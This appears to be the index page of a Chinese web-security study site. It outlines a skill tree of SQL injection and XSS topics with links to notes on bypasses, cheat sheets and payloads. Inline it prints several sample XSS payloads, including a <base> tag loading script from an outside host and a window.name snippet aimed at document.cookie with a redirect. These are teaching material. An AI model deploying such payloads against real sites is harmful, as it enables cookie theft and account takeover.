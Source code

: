```yaml
---
layout: default
---
```


# 欢迎来到web安全的世界
### ![](../img/hj.jpg) 以下为小贱所掌握的web安全技能树
>小贱提示：
>
>这些只是基础部分，深入部分就不是笔记这么简单了，需要大量实践总结经验，还需读者日后自行研究

- ![](../img/github1.png)![](../img/yes.png) [ASCII码表和HTML实体符号表](ascii)
- ![](../img/github2.png)![](../img/yes.png) 通用知识
  - ![](../img/yes.png)前端基础
    - ![](../img/yes.png)[url与HTML协议](url)
    - ![](../img/yes.png)[Cookie安全](cookie)
    - ![](../img/yes.png)[本地存储风险+CSS+ActionScript](bendi)
    - ![](../img/yes.png)[伪造ip+用户登录+验证码绕过+浏览器同源策略](tongyuan)
- ![](../img/github3.png)![](../img/yes.png) [信息收集](xinxishouji)
- ![](../img/github4.png)![](../img/yes.png) sql注入
  - ![](../img/yes.png)[漏洞挖掘](sqlwajue)
  - ![](../img/yes.png)[寻找注入点](zhurudian)
  - ![](../img/yes.png)[绕过方法](raoguofangfa)
  - ![](../img/yes.png)[判断类型](panduanleixing)
  - ![](../img/yes.png)[注入格式](zhurugeshi)
  - ![](../img/yes.png)[cheat-sheet](sqlcheatsheet)
  - ![](../img/yes.png)[万能密码](wannengmima)
  - ![](../img/yes.png)[十种MySQL报错注入](baocuozhuru)
  - ![](../img/yes.png)[其他数据库注入](qitashujuku)
  - ![](../img/yes.png)[常用参数](changyongcanshu)
- ![](../img/github5.png)![](../img/yes.png) XSS
  - ![](../img/yes.png) XSS payload
    - ![](../img/yes.png)[获取cookie+浏览器信息+插件](huoqucookie)
    - ![](../img/yes.png)[模拟发送请求](xssrequests)
  - ![](../img/yes.png) 构造思路
    - ![](../img/yes.png) 注意闭合
    - ![](../img/yes.png) 利用\<>标记注射
    - ![](../img/yes.png) [标签属性值注射](biaoqianshuxing)
    - ![](../img/yes.png) [对标签属性值转码](biaoqianzhuanma)
    - ![](../img/yes.png) [关键字拆分嵌套](guanjianzichaifen)
    - ![](../img/yes.png) [产生事件](chanshengshijian)
    - ![](../img/yes.png) 利用eval( )
      - \<script>eval("alert('XSS')");\</script>
    - ![](../img/yes.png) [利用CSS跨站剖析](liyongcss)
    - ![](../img/yes.png) aa.innerHTML="xxxxxxxxxxxx"
      - 这种情况下。xxxxx 只能使用 \<img src=1 onerror=alert(1)> 这种方式来触发 JS
    - ![](../img/yes.png) location.hash
      - \<input type="text" value="" onclick="eval(location.hash.substr(1))"/>
    - ![](../img/yes.png) 使用\<base>标签
      - \<base href="http://www.8pwn.com"/>\<script src="x.js"></script>
    - ![](../img/yes.png) window.name

       ```
       <script>
       window.name = "alert(document.cookie)";
       location.href = "http://www.xss.com/xssed.php";</script>
       ```
    - ![](../img/yes.png) [绕过过滤的方法](xssraoguo)
    - ![](../img/yes.png) 动态调用远程JS
  - ![](../img/yes.png) [XSS模型](xssmoxing)
